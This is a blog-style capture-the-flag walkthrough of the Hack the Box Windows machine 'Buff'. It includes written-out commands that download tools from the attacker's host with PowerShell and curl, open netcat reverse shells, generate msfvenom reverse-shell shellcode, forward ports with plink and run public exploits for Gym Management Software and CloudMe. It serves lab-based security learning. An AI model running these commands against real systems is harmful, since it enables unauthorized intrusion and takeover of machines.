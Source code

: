 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
date = 2020-07-18T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/08/info.png"
slug = "hack-the-box-buff"
summary = "Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
title = "Hack the Box - Buff"
url = "/hack-the-box-buff"
 

+++


Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!

As always we start with `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.198`

Here are our results:
```
Nmap scan report for 10.10.10.198
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

We see only two ports. So we head over to port `8080` and see what is being hosted. We land on a gym page. Exploring the page a bit shows that it's built on a software called `Gym Management Software 1.0`. A quick google shows us there are a few possible exploits for this software.

![](/images/2020/08/image.png)

We will quickly mirror this exploit to our working directory with `searchsploit`.

Command:
`searchsploit -m 48506`

Reading through the exploit and how it works, we simply need to supply our target URL.

Command:
`python2 48506.py http://10.10.10.198:8080/`

![](/images/2020/08/buffshell.gif)

We get back a webshell. We can now use this to quickly snag our `users.txt` flag.

![](/images/2020/08/image-1.png)

Now that we have this flag, we can look at creating a more stable connection and look for ways to escalate. We can use `nc` or `plink` to create a connnection back to our attacking system. First we need to download those tools to this system.

Command:
`powershell.exe -exec bypass -C "iex(New-Object Net.WebClient).DownloadFile('http://10.10.14.210/nc64.exe', 'C:\xampp\htdocs\gym\upload\nc64.exe')"`

Once thats on the system we can create our callback.

Command:
`.\nc.exe 10.10.14.210 7777 -e powershell.exe`

Make sure we have our listener as well.
`nc -lcnp 7777`

Once we do that we get our shell back.

![](/images/2020/08/image-2.png)

Now we just download `winPEAS` the same as we have for other tools:

Command:
`iex(New-Object Net.WebClient).DownloadFile("http://10.10.14.210/winPEAS.exe", "C:\Temp\wp.exe")`

When we try to run the file however, we are blocked.

![](/images/2020/08/image-3.png)

So we just download the `.bat` version instead. As we sift through this data we don't see much too exciting. As we manually browse the the contents of the machine, we noticed `CloudMe_1112.exe` in downloads. When we check against the `winPeas` scan from above we see that port 8888 is open locally, the port `CloudMe` uses. A quick search for any exploits of the software shows there is one on [exploit-db](https://www.exploit-db.com/exploits/48389).

The goal here is to do some port forwarding to our machine and run this exploit. To do this we'll need to use `plink`. We'll also need to create our own shellcode exploit as well.

First we'll generate our shellcode:

Command:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.210 LPORT=6969 -f c > shellcode`

We'll need to put this code in our exploit code later on. Next, let's get `plink` onto the target machine.

Command:
`curl http://10.10.14.210/plink.exe -o C:\tmp\plink.exe`

We can now create a port forwarding scenario to access remote ports locally. First start our `SSH` service if it's not already running.

Command:
`service ssh start`

Now create our port forward:

Command:
`.\plink.exe -ssh rootflag@10.10.14.210 -R 1234:127.0.0.1:8888`

This will then prompt us to login with the account. Once we do we should see a basic prompt.

![](/images/2020/08/image-5.png)

Now we should have the remote port of `8888` being forwarded to our local port of `1234`. If you try to curl the port, it's not going to get back any info but that's normally what I would do to be sure it worked.

Now that we have the ports forwarded, we can modify the exploit we found earlier - `44470.py`. First we need to replace the shellcode inside the exploit with our generated backdoor code. That's the code on line 31 - 52. Once we've pasted in our new shell code, we need to modify line 57 to reflect our port. In this case, we set or local port to `1234`. So we'll need to make that the value rather than `8888`

![](/images/2020/08/image-6.png)

Now with that saved. We can setup another listener to catch our reverse shell for the exploitcode that we made in the first step.

Command:
`nc -lvnp 6969`

We can now run the exploit. If you're on a public machine like myself, you might need to run it a few times.

Command:
`python2 44470.py` 

If all goes well, your listen will catch the connection.

![](/images/2020/08/image-4.png)

We now have an admin shell. We get our `root.txt` flag and box complete!

If you learned something in this box, send some respect my way - [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



